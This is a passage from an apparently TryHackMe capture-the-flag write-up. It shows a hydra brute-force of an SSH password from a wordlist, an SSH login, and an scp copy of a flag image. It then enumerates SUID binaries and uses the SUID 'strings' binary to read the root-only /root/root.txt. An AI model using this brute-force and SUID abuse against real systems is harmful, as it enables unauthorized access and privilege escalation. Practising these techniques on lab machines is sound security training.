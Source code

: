 I copied the list of passwords over to a txt file named ```passlist.txt``` and ran hydra from my local machine to try to brute force jack's ssh password. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ hydra -s 80 -l jack -P passlist.txt [REDACTED] -t 4 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-02-21 16:18:04
[DATA] max 4 tasks per 1 server, overall 4 tasks, 25 login tries (l:1/p:25), ~7 tries per task
[DATA] attacking ssh://[REDACTED]:80/
[80][ssh] host: [REDACTED]   login: jack   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-02-21 16:18:10
```
I got creds! 
```
ajread@aj-ubuntu:~/TryHackMe$ ssh jack@[REDACTED] -p 80
jack@10.10.141.123's password: 
jack@jack-of-all-trades:~$ 
```
There was a ```user.jpg``` file within the home directory of jack. I wanted to look at the jpg on my local machine so I copied it over using SCP (https://linuxize.com/post/how-to-use-scp-command-to-securely-transfer-files/), which is a nice tool if you have credentials and can use SSH. 

```
ajread@aj-ubuntu:~/TryHackMe/practice$ scp -P 80 jack@[REDACTED]:/home/jack/user.jpg .
jack@[REDACTED]'s password: 
user.jpg                                          100%  286KB 614.4KB/s   00:00 ```

```
The jpg was a recipe for Penguin Soup with one of the ingredients being the user flag! 

# Privilege Escalation 
I checked to see if jack could run any commands as sudo.
```
jack@jack-of-all-trades:~$ sudo -l
[sudo] password for jack: 
Sorry, user jack may not run sudo on jack-of-all-trades.
```
It appeared not. The next step was to get for easy SUID bits. 
```
jack@jack-of-all-trades:~$ find / -perm +4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/pt_chown
/usr/bin/chsh
/usr/bin/at
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/strings
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/procmail
/usr/sbin/exim4
/bin/mount
/bin/umount
/bin/su
```
Great! It looked like ```strings``` was able to be run as root (```/usr/bin/strings```). 
```
jack@jack-of-all-trades:~$ strings /root/root.txt
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
```